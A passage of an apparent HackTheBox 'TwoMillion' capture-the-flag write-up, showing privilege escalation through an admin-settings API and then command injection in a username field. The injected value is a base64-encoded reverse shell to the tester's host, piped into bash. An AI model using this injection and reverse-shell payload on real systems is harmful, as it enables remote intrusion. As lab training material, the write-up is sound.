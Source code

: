 
### Updating user settings through API
Now clearly the biggest bang for our buck right now is the PUT method and for that I simply changed the request method to  POST and instead of POST I typed in there PUT

![15 response](https://github.com/0xHillside/Writeups/assets/109657189/a5febb7f-8db8-4032-8ef2-350ed6b1a0a4)


the response:
```
RESPONSE
----------------------------------------------------
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 12 Sep 2023 16:39:34 GMT
Content-Type: application/json
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 56
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

okay missing parameter so lets fix that

![16 response](https://github.com/0xHillside/Writeups/assets/109657189/6888373f-0baa-4952-b58d-296fa491b54a)


okay so thankfully we know what we are missing we add that to our body

![17 response](https://github.com/0xHillside/Writeups/assets/109657189/f03797c2-f8bf-4beb-8fe3-237647a48c2d)


And now my user is finally admin.. YIPPEE!!

now this is where in all honesty I was assisted by a friend, s1mple proceeded to assist me with the command injection in this field when i never really thought of it and so we did and bam

![18 response](https://github.com/0xHillside/Writeups/assets/109657189/f1a25fd6-8f6e-4d34-a1cd-c13e1f5c9191)


another hint given by him S1mple was encoding the shellcode to make it easier and coincidentally it was the same thing used in the writeup. it is EXTREMELY useful where to get a reverse shell its best to encode it in base64, then pipe it into a decoding it using the base64 and then piping it into bash

```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=kbddtvh1t902d49q3f48k6enff
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 114

{

	"username":"sawyer;echo 'L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTAvOTk5MiAwPiYx' | base64 -d | bash;"

```